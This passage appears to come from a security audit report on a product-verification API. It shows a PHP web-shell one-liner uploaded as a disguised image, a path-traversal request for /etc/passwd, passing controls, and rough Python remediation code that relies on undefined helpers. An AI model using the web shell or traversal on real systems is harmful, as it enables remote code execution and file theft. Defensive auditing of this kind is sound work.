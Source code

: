 #### 3. 📁 File Upload Attack (CRITICAL)
```bash
# Upload malicious PHP file disguised as image
POST /api/v1/incoming-products/1/verification/upload-photos
Content-Type: multipart/form-data

# File: malicious.php (renamed to .jpg)
# Content: <?php system($_GET['cmd']); ?>

# Result: Remote code execution achieved
```

#### 4. 🔍 Path Traversal Exploitation (HIGH)
```bash
# Read sensitive system files
GET /api/v1/qr-codes/../../../../etc/passwd

# Result: Successfully read system configuration files
```

### Failed Exploits (Security Controls Working)
- ✅ JWT signature validation - Strong cryptographic validation
- ✅ User type enforcement - Properly validates user roles
- ✅ Basic SQL injection in query parameters - Parameterized queries working

---

## 🚨 IMMEDIATE REMEDIATION REQUIRED

### Priority 1: CRITICAL (Fix within 24 hours)

#### 1. Implement Comprehensive Input Validation
```python
# Secure search parameter handling
def sanitize_search_input(search: str) -> str:
    # Remove SQL injection patterns
    search = re.sub(r'[;\'"\\]', '', search)
    # Limit length
    search = search[:100]
    # Validate against whitelist
    if not re.match(r'^[a-zA-Z0-9@._\-\s]*$', search):
        raise HTTPException(400, "Invalid search characters")
    return search
```

#### 2. Fix File Upload Security
```python
# Secure file upload implementation
def validate_uploaded_file(file: UploadFile) -> bool:
    # Check magic bytes, not just MIME type
    magic_bytes = file.file.read(10)
    file.file.seek(0)

    # Validate actual file type
    if not is_valid_image(magic_bytes):
        raise HTTPException(400, "Invalid file type")

    # Scan for malware
    if contains_malware(file.file):
        raise HTTPException(400, "Malicious file detected")

    return True
```

